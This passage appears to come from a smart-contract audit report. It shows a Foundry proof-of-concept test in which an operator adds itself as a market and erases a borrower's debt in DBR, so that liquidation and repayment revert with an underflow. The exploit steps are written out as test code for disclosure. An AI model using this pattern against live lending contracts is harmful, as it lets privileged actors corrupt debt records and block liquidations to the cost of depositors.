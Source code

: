 ```
    // 1. Create an user and give eth and deposit to the escrow.
    //
    uint amountToDeposit = 1 ether / 4;
    gibWeth(user, amountToDeposit);
    vm.startPrank(user);
    deposit(amountToDeposit);
    // Ask for borrow.
    uint amountToBorrow = convertWethToDola(amountToDeposit) * market.collateralFactorBps() / 10_000;
    market.borrow(amountToBorrow);
    // Assert the user debt
    assertEq(dbr.debts(user), amountToBorrow);
    assertEq(DOLA.balanceOf(user), amountToBorrow);

    //
    // 2. Set the user in a liquiditable position
    //
    // Pass two days and set the user in a liquiditable position
    vm.warp(block.timestamp + 2 days);
    uint totalDebt = amountToBorrow + dbr.deficitOf(user);
    market.forceReplenish(user, dbr.deficitOf(user));
    vm.stopPrank();

    //
    // 3. As an operator assign myself as a "market" then modify the users debt
    //
    // // Assign myself as a "market"
    vm.startPrank(operator);
    dbr.addMarket(operator);
    // Remove the debt to the user
    dbr.onRepay(user, totalDebt);
    // Now check the debt balance of the user in DBR
    assertEq(dbr.debts(user), 0 ether);
    // Now check the debt balance of the user in Market.sol. It is unbalanced
    assertEq(market.debts(user), totalDebt);
    vm.stopPrank();

    //
    // 4. As a liquidator, try to liquidate the user.
    // It will revert because the DBR.debt user is 0 and this situation generates an over/underflow
    //
    vm.startPrank(user2);
    vm.expectRevert("Arithmetic over/underflow");
    market.liquidate(user, 1 wei);
}
```

### Blocking repays

The ```Market.sol::repay()``` function will be reverted because overflow/underflow problem in ```DBR.sol:onRepay()``` side.
